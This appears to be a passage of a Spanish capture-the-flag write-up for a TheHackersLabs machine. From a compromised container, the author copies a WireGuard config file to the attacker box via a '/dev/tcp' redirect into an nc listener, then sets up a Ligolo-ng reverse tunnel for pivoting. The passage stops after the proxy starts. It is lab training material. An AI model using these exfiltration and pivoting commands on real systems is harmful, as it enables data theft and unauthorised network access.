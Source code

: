 Al inspeccionar `tunnelRafael.conf`, identifico parámetros que indican la creación de una nueva subred `10.13.13.1/24`. Esto evidencia que el fichero está destinado a establecer un túnel con WireGuard.

```terminal
root@rafael:~# cat tunnelRafael.conf
```

![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v164_1.png)

Desde el contenedor, envío el contenido del fichero a mi máquina.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ nc -lnvp 4444 > tunnelRafael.conf
	listening on [any] 4444 ...

root@rafael:~# cat tunnelRafael.conf > /dev/tcp/192.168.0.171/4444

	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.138] 32980
```

---

Primero, descargo Ligolo-ng Proxy y Ligolo-ng Agent desde el repositorio oficial para establecer un túnel reverso que permita la comunicación entre la máquina víctima y mi máquina atacante.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz

root@rafael:~# wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_agent_0.7.5_linux_amd64.tar.gz
```

Configuro una interfaz tun en mi máquina para permitir el paso del tráfico a través del túnel. Luego, creó la interfaz y luego la activo con `ip link set`.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ sudo ip tuntap add user kali mode tun ligolo
/home/kali/Documents/thl/thlcppt_v16:-$ sudo ip link set ligolo up
```

Posteriormente, ejecuto el proxy y el agente de Ligolo.
* En la máquina atacante, inicio el proxy con la opción `-selfcert` para generar un certificado autofirmado.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ ./proxy -selfcert
```
